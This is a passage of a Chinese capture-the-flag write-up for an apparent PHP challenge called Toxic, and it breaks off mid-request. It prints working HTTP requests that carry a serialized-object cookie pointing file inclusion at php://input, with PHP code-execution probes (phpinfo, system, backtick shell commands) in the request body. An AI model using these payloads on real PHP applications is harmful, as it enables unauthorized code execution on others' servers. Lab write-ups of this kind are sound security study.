     * 将题目的代码运行在**本地**PHP服务器上，发现可以返回php运行环境信息

      ```http
      POST / HTTP/1.1
      
      Host: 10.128.214.161
      Accept-Encoding: gzip, deflate
      Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToicGhwOi8vaW5wdXQiO30
      Content-Length: 20
      Content-Type: application/x-www-form-urlencoded
      
      <?php phpinfo();
      ```

    * 将同样的请求打到**远端**Toxic容器上，发现只返回Response头，没有返回有效信息

      ```http
      HTTP/1.1 200 OK
      
      Server: nginx
      Date: Mon, 10 May 2021 02:16:30 GMT
      Content-Type: text/html; charset=UTF-8
      Connection: keep-alive
      X-Powered-By: PHP/7.4.15
      Content-Length: 0
      ```

    * 测试函数是否被禁用

      * system，立即返回且响应体为空，说明system函数无法使用

        ```shell
        POST / HTTP/1.1
        
        Host: 138.68.182.108:30870
        Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToicGhwOi8vaW5wdXQiO30
        Content-Length: 25
        Content-Type: application/x-www-form-urlencoded
        
        <?php system('sleep 1h');
        ```

      * 撇号，立即返回且响应体为空，说明撇号无法起作用

        ```shell
        POST / HTTP/1.1
        Host: 138.68.182.108:30870
        Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToicGhwOi8vaW5wdXQiO30
        Content-Length: 22
        Content-Type: application/x-www-form-urlencoded
        
        <?php echo `sleep 5s`;
        ```

        > 撇号包裹的内容可以当作shell的命令执行

      * echo，立即返回且响应体为空，说明可能include的数据本身就无法返回，也可能是命令根本没有执行

        ```shell
        POST / HTTP/1.1
        Host: 138.68.182.108:30870
        Cookie: PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxMToicGhwOi8vaW5wdXQiO30
        Content-Length: 22
        Content-Type: application/x-www-form-urlencoded
        